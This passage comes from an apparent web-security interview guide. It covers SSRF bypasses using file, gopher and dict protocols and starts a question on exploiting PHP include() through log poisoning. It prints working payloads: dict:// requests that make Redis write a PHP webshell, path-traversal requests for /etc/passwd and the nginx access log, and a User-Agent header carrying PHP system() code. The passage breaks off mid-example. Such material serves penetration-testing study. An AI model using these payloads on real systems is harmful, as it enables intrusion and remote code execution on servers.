 ##### 3) Different protocols
We shouldn't forget to use different protocols as well. Let's say the protection for the HTTP(S) protocol is insane and cannot be bypassed. What now? Well, try different protocols! The protection may not expect different protocol other than HTTP and will simply collapse. Protocols you might try : 

`file:///` - Will load local files. 
`gopher://` - A little bit more complicated protocol, but can actually be used for an RCE.
- https://github.com/tarunkant/Gopherus
`dict://` - `?url=dict://hackerman:1337/`
- DICT protocol can be used to create a webshell via REDIS as well :
```txt
# setting the root directory
dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html

#creating a file webshell.php
dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20webshell.php

# creating a webshell payload
dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[cmd])\x3F>"

# saving it
dict://127.0.0.1:6379/SAVE

Now, just go to target.com/webshell.php?cmd=id and ez pwn.
```


## Question 60: Describe different ways a PHP include() could be exploited to gain code execution.

#### Log poisoning
Let's say we've found a vulnerable parameter `page`, and we can successfully load `/etc/passwd`. Log Poisoning takes advantage over the fact that logs often reflect important data, like **headers**. In our example, let's focus on an nginx-based webserver, in which we will exploit the `access.log` file.

Full path is `/var/log/nginx/access.log.` We will make a request to it to confirm it exists :

```HTTP
GET /?page=../../../../var/log/nginx/access.log HTTP/1.1
Host: freeoscp.net
...
...

200 OK
1.3.3.7 - [28/Feb/2019:13:17:10 +0000] "GET /?p=1 HTTP/2.0" 200 5316 "https://freeoscp.net/?page=../../../../var/log/nginx/access.log" "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/987948984.984 Safari/537.36" "2.75"
...
...
```
We confirm it exists. Now, we can see that it reflects a `User-Agent` header, so we can change our User-Agent header to a PHP code and see, if it works : 
```HTTP
GET /?page=../../../../var/log/nginx/access.log HTTP/1.1
Host: freeoscp.net
User-Agent: <?php system('id')
...
...
```
